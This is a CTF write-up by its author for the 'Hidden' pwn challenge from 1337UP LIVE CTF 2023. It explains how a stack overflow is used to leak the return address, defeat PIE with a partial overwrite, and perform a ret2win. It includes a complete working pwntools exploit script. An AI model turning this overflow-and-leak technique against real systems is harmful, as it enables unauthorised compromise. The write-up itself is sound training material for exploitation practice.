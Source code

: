 # Hidden

|||
|-|-|
|  **CTF**  |  [1337UP LIVE CTF 2023](https://ctf.intigriti.io/) [(CTFtime)](https://ctftime.org/event/2134)  |
|  **Author** |  0xM4hm0ud |
|  **Category** |  Pwn |
|  **Solves** |  111  |
|  **Difficulty** |  Easy |
| **Files** |  [hidden.zip](<hidden.zip>)  |

![image](https://github.com/0xM4hm0ud/MyCTFChallenges/assets/80924519/ba580f5b-9afe-43c0-a8cd-6732ff297568)

# Solution

When unzipping we get a binary. Lets check the protections:

![image](https://github.com/0xM4hm0ud/MyCTFChallenges/assets/80924519/713797de-a5f3-4f10-8b51-4035b0feac96)

So all protections enabled. 
We can check the main function and see that it calls the `input` function:

![image](https://github.com/0xM4hm0ud/MyCTFChallenges/assets/80924519/5c8b8ec0-e69f-4bac-a40d-eed8d61bdb35)

When we check the `input` function we see that there is no canary in this function. There is also a buffer overflow vulnerability. We can read 0x50 bytes into a buffer on the stack with a smaller size:

![image](https://github.com/0xM4hm0ud/MyCTFChallenges/assets/80924519/812cb37c-5339-4975-ab4f-46afc404a441)

There is also a win function called `_`:

![image](https://github.com/0xM4hm0ud/MyCTFChallenges/assets/80924519/8383955e-d42f-4aa1-8a69-217795d638c4)

So we can just overflow and jump to the win function, but because of PIE that is enabled we can't do this.
We need to leak. If we check close at the `input()` we can see that after the read call it prints our input with `puts`.
Puts reads till it find a null byte and because we have an overflow we can fill the entire buffer till the return address and leak the return address. 
But we also need to jump back so we need to overwrite the lsb of the return address(last 3 nibbels stays the same):

![image](https://github.com/0xM4hm0ud/MyCTFChallenges/assets/80924519/5769451c-4b3d-4a03-b34a-ddc9119bdd8a)

So when we jumped back to main with the leak we know the address of the win function. We then can do a normal ret2win to get the flag.

> solve.py
```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
'''.format(**locals())

exe = './chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
#context(terminal=['tmux', 'split-window', '-h'])

io = start()

payload = flat (
    b'A' * 72,
    p8(0x1a)
    )

io.sendafter(b':\n', payload)

io.recvuntil(b'A' * 72)
leak = u64(io.recvline()[:-1].ljust(8, b'\x00'))
elf.address = leak - 0x131a

log.success("Main address: %#x", leak)
log.success("Binary base: %#x", elf.address)

payload = flat (
    b'A' * 72,
    p64(elf.sym._)
    )

io.sendafter(b':\n', payload)
io.interactive()
```
 
